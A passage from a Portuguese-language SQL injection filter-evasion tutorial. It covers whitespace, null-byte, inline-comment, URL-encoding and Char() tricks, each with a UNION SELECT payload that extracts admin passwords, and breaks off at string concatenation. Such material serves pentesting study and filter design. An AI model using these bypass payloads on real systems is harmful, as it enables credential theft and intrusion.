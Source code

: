 Adicionar caracteres especiais como nova linha ou tabulação que não alterarão a execução da instrução SQL. Por exemplo:

```sql
or
'a'=
        'a'
```

#### Bytes Nulos

Use byte nulo (%00) antes de quaisquer caracteres que o filtro esteja bloqueando.

Por exemplo, se o atacante puder injetar o seguinte SQL:

`' UNION SELECT password FROM Users WHERE username='admin'--`

para adicionar Bytes Nulos será:

`%00' UNION SELECT password FROM Users WHERE username='admin'--`

#### Comentários SQL

Adicionar comentários SQL inline também pode ajudar na validade da instrução SQL e contornar o filtro de injeção de SQL. Considere esta injeção de SQL como exemplo.

`' UNION SELECT password FROM Users WHERE name='admin'--`

Adicionando comentários SQL inline:

`'/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/'admin'--`

`'/**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE/**/'admin'--`

#### Codificação de URL

Use a [codificação de URL online](https://meyerweb.com/eric/tools/dencoder/) para codificar a instrução SQL.

`' UNION SELECT password FROM Users WHERE name='admin'--`

A codificação de URL da instrução de injeção de SQL será:

`%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--`

#### Codificação de Caracteres

A função Char() pode ser usada para substituir caracteres em inglês. Por exemplo, char(114,111,111,116) significa root.

`' UNION SELECT password FROM Users WHERE name='root'--`

Para aplicar o Char(), a instrução de injeção de SQL será:

`' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--`

#### Concatenação de Strings

A concatenação divide as palavras-chave SQL e evita filtros. A sintaxe de concatenação varia de acordo com o mecanismo do banco de dados. Tome o motor MS SQL como exemplo.
